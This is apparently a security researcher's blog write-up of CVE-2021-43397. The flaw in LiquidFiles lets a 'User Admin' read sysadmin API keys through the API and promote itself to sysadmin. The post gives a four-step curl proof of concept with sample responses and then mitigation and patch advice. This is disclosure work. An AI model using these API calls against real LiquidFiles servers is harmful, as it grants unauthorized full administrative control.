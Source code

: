 ```yaml
---
image: https://www.liquidfiles.com/assets/images/logo_144x144-362aae5506940de69ed13cf4f518a9d20ca5271f4e82934de4e31cb04f03a37a.png
categories: [cve, pentest]
---
```


![thumbnail](https://i.imgflip.com/62gg79.jpg)

## Executive summary

Me and 2 other collegues were performing a test for our customers and we discovered a Privilege Escalation from "User Admin" user to "System Administrator" user on LiquidFiles framework.

LiquidFiles is a secure file transfer system for person-to-person email communication. Using LiquidFiles API, a "User Admin" user could list all the application registered users, retrieving information such as their API keys, including those of the System Administrators. 

As per LiquidFiles documentation, API key is used as HTTP basic authentication in order to authenticate to the
LiquidFiles system. A malicious "User Admin" user, by using a "System Administrator"'s API key, can obtain the role of System Administrator and can administer all aspects of the LiquidFiles system.

The impact of a successful attack includes: obtaining access to all aspects of the LiquidFiles system of the application via the System Administrator API key.

This vulnerability was credited by MITRE with id: [CVE-2021-43397](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43397) and the original publication is hosted on [packet storm](https://packetstormsecurity.com/files/164997/LiquidFiles-3.5.13-Privilege-Escalation.html).

## Proof of Concept

1. Get the API key of your own user-admins user
    ```bash
    cURL Request:
    curl -X POST -H "Accept: application/json" -H "Content-Type: application/json" -d '{"user":{"email":"[user-admins_user_mail]","password":"[CENSORED]"}}' https://[CENSORED]/login
    
    Response:
    {"user":{"api_key":"[user-admins_user_API_key]"}}
    ```

2. Get a sysadmins' API key
    ```bash
    cURL Request:
    curl -s -X GET --user "[user-admins_user_API_key]:x" -H "Accept: application/json" -H "Content-Type: application/json" https://[CENSORED]/admin/users

    Response:
    [TRUNCATED]
    {"user":
    {
        "id": "[CENSORED]",
        "email": "[CENSORED]",
        "name": "[CENSORED]",
        "group": "sysadmins",
        "max_file_size": 0,
        "filedrop": "disabled",
        "filedrop_email": "disabled",
        "api_key": "[sysadmins_user_API_key]",
        "ldap_authentication": "false",
        "locale": "",
        "time_zone": "",
        "strong_auth_type": "",
        "strong_auth_username": "",
        "delivery_action": "",
        "phone_number": "",
        "last_login_at": "2021-10-29 10:02:11 UTC",
        "last_login_ip": "[CENSORED]",
        "created_at": "2020-06-30 10:49:38 UTC"
    }
    },
    [TRUNCATED]
    ```

3. Modify the group of your own user-admins user from "user-admins" to "sysadmins"
    ```bash
    cURL Request:
    cat <<EOF | curl -s -X PUT --user "[sysadmins_user_API_key]:x" -H "Accept:
    application/json" -H "Content-Type: application/json" -d @- https://
    [CENSORED]/admin/users/<user-admins_user_id>
    {"user":
    {
        "name": "[user-admins_user_name]",
        "group": "sysadmins"
    }
    }
    EOF

    Response
    {"user":
        {
            "id": "[CENSORED]",
            "email": "[CENSORED]",
            "name": "[CENSORED]",
            "group": "sysadmins",
            "max_file_size": 0,
            "filedrop": "disabled",
            "filedrop_email": "disabled",
            "api_key": "[CENSORED]",
            "ldap_authentication": "true",
            "locale": "",
            "time_zone": "",
            "strong_auth_type": "",
            "strong_auth_username": "",
            "delivery_action": "",
            "phone_number": "",
            "last_login_at": "2021-11-03 13:31:58 UTC",
            "last_login_ip": "[CENSORED]",
            "created_at": "2021-03-03 11:48:37 UTC"
        }
    }
    ```

4. Verify that your own user-admins user is now a sysadmins one.
    ```bash
    cURL Request
    curl -X GET -H "Accept: application/json" -H "Content-Type: application/json" --user [user-admins_user_API_key]:x https://[CENSORED]/admin/users/<user-admins_user_id>

    Response
    {"user":
        {
            "id": "[CENSORED]",
            "email": "[CENSORED]",
            "name": "[CENSORED]",
            "group": "sysadmins",
            "max_file_size": 0,
            "filedrop": "disabled",
            "filedrop_email": "disabled",
            "api_key": "[CENSORED]",
            "ldap_authentication": "true",
            "locale": "",
            "time_zone": "",
            "strong_auth_type": "",
            "strong_auth_username": "",
            "delivery_action": "",
            "phone_number": "",
            "last_login_at": "2021-11-03 13:34:36 UTC",
            "last_login_ip": "[CENSORED]",
            "created_at": "2021-03-03 11:48:37 UTC"
        }
    }
    ```

## Mitigation and Remediation

To mitigate this vulnerability, the solution is to disable API calls for "Admins" group. Nevertheless, it is suggested to update the solution, as LiquidFiles released an [official patch](https://man.liquidfiles.com/release_notes/version_3-6-x.html) in version 3.6.3.


## Conclusion

It was great to discover this vulnerability and very satisfying to be awarded a CVE, I could get used to it :wink:. If you want a better article for this CVE, look at the one from my collegue [here](https://nananan.github.io/posts/liquid-files-cve/).